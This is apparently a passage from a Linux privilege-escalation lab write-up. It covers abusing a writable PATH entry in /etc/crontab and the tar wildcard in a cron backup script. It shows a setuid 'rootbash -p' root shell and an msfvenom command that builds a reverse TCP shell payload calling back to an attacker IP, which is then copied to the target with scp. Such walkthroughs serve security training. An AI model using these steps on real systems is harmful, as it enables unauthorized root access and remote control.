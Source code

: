 ```bash
user@debian:/tmp$ cat /etc/crontab
.
.
SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
.
```

- Exploiting PATH environment varibale:

```bash
user@debian:~$ nano overwrite.sh
user@debian:~$ chmod +x overwrite.sh 

user@debian:~$ cd /tmp/
user@debian:/tmp$ ls -l
total 1032
-rw-r--r-- 1 root root  98894 May 24 04:27 backup.tar.gz
-rwxr-xr-x 1 user user   6324 May 24 04:10 libcrypt.so.1
-rwxr-xr-x 1 user user   3857 May 24 04:08 preload.so
-rwsr-s--x 1 root root 926536 May 24 04:27 rootbash
-rw-r--r-- 1 root root     29 May 24 04:22 useless
user@debian:/tmp$ ./rootbash -p
```

---

##  Cron Jobs - Wildcards

- View the **compress.sh** file:

```bash
user@debian:~$ cat /usr/local/bin/compress.sh
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
```

- Transfer **shell.elf** using scp

```bash
 msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.17.7.91 LPORT=4444 -f elf -o shell.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
Saved as: shell.elf

$ scp
usage: scp [-346ABCpqrTv] [-c cipher] [-F ssh_config] [-i identity_file]
            [-J destination] [-l limit] [-o ssh_option] [-P port]
            [-S program] source ... target

$ scp shell.elf user@10.10.95.239:/home/user 
user@10.10.95.239's password: 
shell.elf                                                                                           100%  194     1.2KB/s   00:00    
```
